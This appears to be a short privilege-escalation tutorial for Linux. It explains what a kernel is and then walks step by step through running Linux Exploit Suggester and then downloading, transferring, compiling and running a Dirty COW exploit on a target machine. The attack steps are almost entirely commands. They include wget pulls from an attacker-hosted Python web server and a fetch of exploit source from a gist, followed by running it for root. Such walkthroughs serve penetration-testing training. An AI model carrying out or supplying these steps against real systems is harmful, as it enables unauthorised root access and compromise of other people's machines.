









### **INTRODUCTION**

A kernel is essentially a “computer program” that facilitates interactions between hardware and software. This means that the kernel sits between applications (software) and the CPU / memory / devices / etc. (hardware). The job that the kernel has is to convert input/ouput (I/O) requests from software into instruction sets that interact between the software and hardware.

### **STEPS TO IDENTIFY AND EXPLOIT KERNEL**

1.  Tools like Linux Exploit Suggester simplify finding potential exploits by scanning the system and suggesting possible exploits based on the kernel version and other details.  
    `git clone https://github.com/mzet-/linux-exploit-suggester.git`  
    
    
    
2.  Host the Script Using Python:  
    `python3 -m http.server 8000`  
    
    
    
3.  Transfer Script to target machine Using wget  
    `wget http://[IP-ADRESS]:8000/linux-exploit-suggester.sh`  
    
    
    
4.  Make the script executable and run it on the target system:  
    `chmod a+x linux-exploit-suggester.sh && ./linux-exploit-suggester.sh`  
    
    

    The tool evaluates each exploit's potential effectiveness with different exposure levels:  
    1. **highly probable:** High likelihood of success without modifications.  
    2. **probable:** Likely to work with some adjustments.  
    3. **less probable:** Requires further manual analysis.  
    4. **unprobable:** Unlikely to be effective.  
    
    
    
5.  Select a reliable version of the exploit. For example, you can use a well-reviewed variant of the Dirty COW exploit.   
    `wget https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw -O dirtycow.c`  
    
    
    
6.  Host the Exploit Using Python:  
    `python3 -m http.server 8000`  
    
    
    
7.  Use wget to download the exploit to the target machine:  
    `wget http://[IP-ADRESS]:8000/dirtycow.c`  
    
    
    
8.  Compile the exploit code on the target system:  
    `gcc -pthread dirtycow.c -o dirtycow`
    
9.  Run the compiled exploit to perform the attack:  
    `./dirtycow`  
    
    

    **NOTE:** After successful execution, elevate privileges to root using:  
    `/usr/bin/passwd`